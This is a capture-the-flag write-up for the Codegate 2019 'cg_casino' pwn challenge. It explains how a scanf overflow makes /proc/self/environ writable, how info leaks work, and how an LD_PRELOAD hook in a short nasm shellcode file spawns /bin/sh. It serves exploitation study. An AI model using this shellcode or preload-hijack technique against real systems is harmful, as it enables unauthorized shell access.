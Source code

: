 # Codegate CTF 2019 Preliminary
## cg_casino
* `CODEGATE{24cb1590e54e43b254c99404e4f86543}`
* [hook.S](https://github.com/ssspeedgit00/CTF/blob/master/2019/codegate/cg_casino/hook.S)
* [exp.py](https://github.com/ssspeedgit00/CTF/blob/master/2019/codegate/cg_casino/flag.py)
### The challege
* The files
```
.
├── Dockerfile
├── docker-compose.yml
├── libc.so.6
├── share
│   ├── cg_casino
│   └── flag_XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
├── tmp
└── xinetd
```
* Menu
```
$$$$$$$$$$$$$$$$$$$$$$$$$$$
$$$$$$$  CG CASINO  $$$$$$$
$$$$$$$$$$$$$$$$$$$$$$$$$$$
1) put voucher
2) merge voucher
3) lotto
4) up down game
5) slot machine
6) exit
>
```
We can use `put voucher` to named a new file, `merge voucher` will read `0x1000` byte from the file by giving file name and write it to the new file. There are also some meaningless-seemed gambling games.
### Control the content of file
We are not able to control the content of file by opening `/dev/stdin` or `/proc/self/fd/0` due to the docker configuration. That means we need to find out some file already existed and its content is controllable.
There are some file we can think about it under `/proc/self/`: mem, stack, environ, etc.
The `/proc/self/environ` is interesting in this case, because there are `**envp` on the stack and they are point to the strings of `environ`, and there is a buffer overflow occurred by `scanf` in the `main` function of the binary.
We test whether the content of `/proc/self/environ` will changed by overwrite the `environ` on the stack, the result:
```shell
gdb-peda$ x/s 0x7ffc68771274
0x7ffc68771274:	'a' <repeats 16 times>
gdb-peda$ cat /proc/106464/environ
aaaaaaaaaaaaaaaabin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=58f0e86c0c81ERASER1=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...
```
That's awesome!
### Information leak
There is inforamtion leak by input non numeric chracter when you play `lotto`, but only leak the address of libc at first. When you play `slot machine` first, then play `lotto`, you can leak the address of stack this time.
### Exploit
For now we are able to upload a 0x1000-byte file. We found `slot machine` will call `system("/usr/local/clear")`, So we decided to upload `hook.so` file, hook the function that will be called by `/usr/bin/clear`.
* hook.S
```nasm=
; nasm -f elf64 hook.S -o hook.o && ld --shared hook.o -o hook.so
; ubuntu 16.04 GNU ld (GNU Binutils for Ubuntu) 2.26.1
[BITS 64]
	global getenv:function
	section .text
getenv:
	mov rax, 0x68732f6e69622f
	push rax
	mov rdi, rsp
	xor esi, esi
	push 0x3b
	pop rax
	cdq
	syscall
```
There was an interesting thing, when we linked it with `ld` in ubuntu 18.04, the size of ELF came out was too big, but with the old version of `ld` in ubuntu 16.04 the size will be small enought. Awesome again!

Upload `hook.so` and overwrite `LD_PRELOAD=./hook.so` then call `slot machine` to trigger `system("/usr/local/clear")`, `getenv` will be hooked by `hook.so` and execute our shellcode.
* [exp.py]()
### The flag: `CODEGATE{24cb1590e54e43b254c99404e4f86543}`